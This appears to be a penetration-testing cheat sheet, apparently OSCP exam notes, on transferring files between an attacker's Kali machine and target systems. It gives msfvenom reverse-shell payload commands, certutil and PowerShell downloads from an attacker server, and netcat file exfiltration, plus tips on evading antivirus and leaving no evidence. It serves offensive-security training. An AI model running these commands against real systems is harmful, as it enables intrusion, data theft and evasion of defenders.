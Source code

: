 # File Transfer Techniques

Transferring files between your attack machine and target systems is a crucial skill during penetration testing. This document covers various techniques for moving files between Linux and Windows systems.

## Linux to Windows File Transfers

### Using SMB Server

One of the most reliable methods to transfer files from Kali Linux to Windows is using an SMB server:

```bash
# On Kali - Start an SMB server in the current directory
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py share_name .

# On Windows - Copy file from the SMB share
copy \\<KALI_IP>\share_name\file.exe C:\destination\file.exe
```

**Example with reverse shell transfer:**

1. Generate a reverse shell executable on Kali:
   ```bash
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=53 -f exe -o reverse.exe
   ```

2. Start SMB server on Kali in the same directory as reverse.exe:
   ```bash
   sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
   ```

3. On Windows, copy the file:
   ```cmd
   copy \\<KALI_IP>\kali\reverse.exe C:\PrivEsc\reverse.exe
   ```

4. Set up listener on Kali before executing:
   ```bash
   sudo nc -nvlp 53
   ```

5. Run the executable on Windows:
   ```cmd
   C:\PrivEsc\reverse.exe
   ```

### Using HTTP Server

Another common method is to use a simple HTTP server:

```bash
# On Kali - Start a Python HTTP server
python3 -m http.server 8000

# On Windows - Download using PowerShell
powershell -c "Invoke-WebRequest -Uri 'http://<KALI_IP>:8000/file.exe' -OutFile 'C:\destination\file.exe'"
# Alternative PowerShell method
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<KALI_IP>:8000/file.exe', 'C:\destination\file.exe')"

# On Windows - Download using certutil
certutil -urlcache -split -f "http://<KALI_IP>:8000/file.exe" C:\destination\file.exe
```

### Using FTP Server

FTP can be useful when other methods are blocked:

```bash
# On Kali - Install and configure Python ftplib
sudo apt update
sudo apt install python3-pyftpdlib
python3 -m pyftpdlib -p 21 --write

# On Windows - Use native FTP client (create a script.txt file first)
echo open <KALI_IP> 21> ftp_commands.txt
echo anonymous>> ftp_commands.txt
echo password>> ftp_commands.txt
echo binary>> ftp_commands.txt
echo get file.exe>> ftp_commands.txt
echo bye>> ftp_commands.txt
ftp -s:ftp_commands.txt
```

## Windows to Linux File Transfers

### Using SMB Server

```bash
# On Kali - Start SMB server with write permissions
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username user -password password share_name /path/to/share

# On Windows - Copy file to SMB share
copy C:\path\to\file.txt \\<KALI_IP>\share_name\
```

### Using Netcat

```bash
# On Kali - Set up listener to receive file
nc -nlvp 4444 > received_file.txt

# On Windows - Send file
type C:\path\to\file.txt | nc <KALI_IP> 4444
```

### Using Base64 Encoding

For small text files, base64 encoding/decoding can be used:

```bash
# On Windows - Encode file to base64
certutil -encode C:\path\to\file.txt encoded.b64

# Copy the base64 text and on Kali
echo "PASTE_BASE64_HERE" | base64 -d > file.txt
```

## Creating Reverse Shells

### Windows Reverse Shells

```bash
# Basic TCP reverse shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=53 -f exe -o reverse.exe

# PowerShell reverse shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=53 -f psh -o reverse.ps1

# DLL reverse shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=53 -f dll -o reverse.dll
```

### Linux Reverse Shells

```bash
# Basic TCP reverse shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=53 -f elf -o reverse

# Python reverse shell
msfvenom -p cmd/unix/reverse_python LHOST=<KALI_IP> LPORT=53 -f raw -o reverse.py
```

## Tips for OSCP

1. **Always have multiple file transfer methods ready** - Different environments may block different protocols
2. **Use uncommon ports for reverse shells** - Ports like 443, 53, 80 are less likely to be blocked
3. **Create a directory of common payloads before the exam** - Save time during the exam
4. **Test your reverse shells before uploading** - Make sure they work with your specific IP/port
5. **Be mindful of antivirus** - Some transfer methods or payloads may trigger AV detection

## Common Issues and Solutions

### SMB Connection Refused
- Ensure you're running the SMB server with sudo
- Check for firewall rules blocking port 445
- Try using the `-smb2support` flag

### Antivirus Blocking Transfers
- Encode or encrypt executables
- Use alternative transfer methods like Base64
- Split the file into smaller chunks

### Permission Issues
- Check file permissions after transfer
- Use `icacls` on Windows or `chmod` on Linux to set proper permissions
- When using SMB, ensure the server allows write access if needed

Remember to clean up your tools and payloads after completing your tasks to avoid leaving evidence behind. 
